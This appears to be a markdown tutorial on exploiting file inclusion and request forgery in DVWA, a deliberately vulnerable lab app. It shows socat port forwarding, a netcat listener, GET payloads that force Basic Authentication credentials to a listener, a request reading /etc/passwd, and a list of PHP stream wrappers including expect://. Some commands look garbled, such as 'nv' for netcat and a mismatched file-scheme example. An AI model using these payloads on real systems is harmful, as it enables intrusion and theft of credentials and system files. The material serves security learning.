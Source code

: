 Install socat
```bash
apt install socat
```

Then the DVWA is exposed via port forwarding using socat external port 800 will be connected to internal 80. This will expose ur vuln app to the outside world

Forward:
```bash
sudo socat tcp-listen:800,fork tcp:127.0.0.1:80

# Now its exposed 
```

We can try to start a listener in netcat and fetch its address via a GET request 
```
GET /DVWA/vulnerabilities/f?page=http://test:pwd@127.0.0.1:21/a HTTP/1.1
```

### Forcing Authentication
```
nv -lvnp 21

# the back-end used the username:password combination as a Basic Authentication header! 
# This means, when issuing an arbitrary request, we can also do it to like basic authentication protected resources
```

### Changing Protocol
DVWA also accepts an https URL scheme and tries to establish an encrypted connection:
```
GET /DVWA/vulnerabilities/f?page=https://test:pwd@127.0.0.1:21/ssl HTTP/1.1
```

Since we are using a plaintext connection netcat, we just see the attempt to establish SSL to our listener

The 'file://' scheme is also accepted, resulting in file inclusion.
```
GET /DVWA/vulnerabilities/f?file=http:///etc/passwd HTTP/1.1
```

You can always test more protocols handlers

https://www.php.net/manual/en/wrappers.php
```bash
- file:// # accessing local filesystem
- http:// # accessing HTTP(s) URLs
- ftp://  # accessing FTP(s) URLs
- php://  # accessing various I/O streams
- zlib:// # compression streams
- data:// # data (RFC 2397)
- glob:// # find pathnames matching patterns
- phar:// # php archive
- ssh2:// # secure shell 2
- rar://  # rar
- ogg://  # audio streams
- expect:// # process interaction streams
```
